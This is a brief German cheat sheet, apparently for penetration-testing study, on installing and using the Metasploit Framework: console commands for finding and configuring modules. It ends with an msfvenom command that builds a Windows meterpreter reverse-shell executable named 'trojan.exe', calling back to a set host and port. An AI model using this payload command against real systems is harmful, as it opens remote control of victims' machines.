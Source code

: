 MSF - Metasploit Framework

-            Ist in Kali bereits vorinstalliert

Installation auf Debian bzw. Ubuntu:

  

curl [https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb](https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb) > msfinstall && \

  chmod 755 msfinstall && \

  ./msfinstall

  

-            Es existiert eine grafische Benutzeroberfläche: **Armitage**

  

-            Workspaces verwalten (workspace …) -> “help workspace”

-            “search” -> Um gezielt nach Keywords zu suchen

-            Show payload

-            Info -> Zeigt weitere Informationen zu einem Modul an. (z.B. die benötigten Parameter -> RHOSTS/ RPORT, …)

Vorgehensweise:

- Strategrie planen

- z.B. mit search nach dem passenden Modul suchen

- mit dem Befehl „info“ lässt man sich weitere Infos zum gewünschten Modu anzeigen, um in Erfahrung zu bringen welche Parameter alle „required“ sind

-            Das Kommando „use“ benutzen, um ein modul auszuführen

-            Eventuell vorher noch eine angepasste Payload über msfvenom erstellen.

Beispiel für eine Reverse Shell:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.11.229 LPORT=4444 -f exe > trojan.exe